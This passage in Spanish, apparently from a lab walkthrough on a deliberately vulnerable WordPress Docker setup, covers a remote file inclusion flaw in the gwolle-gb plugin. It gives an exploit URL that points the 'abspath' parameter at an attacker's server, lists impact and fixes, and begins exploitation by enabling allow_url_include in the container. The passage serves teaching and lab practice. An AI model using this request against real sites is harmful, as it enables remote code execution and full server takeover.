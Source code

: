 ## Descripción Técnica

El parámetro `abspath` en una petición HTTP GET no se sanitiza adecuadamente antes de ser pasado a la función `require()` en PHP.

Esto permite incluir un archivo `wp-load.php` desde un servidor remoto:

```

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[sitio_del_atacante]

```

>  Requiere que la directiva `allow_url_include` esté activada (`1`) en `php.ini`.

Si no lo está, **aún se pueden incluir archivos locales**, con posibilidad de ejecutar código arbitrario.

---

## Impacto

- Compromiso total de la instalación de WordPress.
- Posible compromiso completo del servidor web.

---

## Recomendaciones

- **Actualizar el plugin** a una versión segura.
- **Deshabilitar** `allow_url_include` en `php.ini`.
- **Validar y sanitizar** todas las entradas de usuario.

---

## Paso 3 - Explotación de vulnerabilidad

Acción: como se nos indica en la información del exploit hay que activar `allow_url_include` (`1`) en `php.ini`. Como no lo está, podemos modificarlo o añadirlo manualmente desde nuestro Docker ejecutándolo con una shell interactiva

```Shell
docker exec -it dvwp_wordpress_1 bash
apt update
apt install nano
nano php.ini
```

Resultado: modificamos el archivo `php.ini` para que quede así

```lua
display_errors = "on"
allow_url_include = "on" 
```
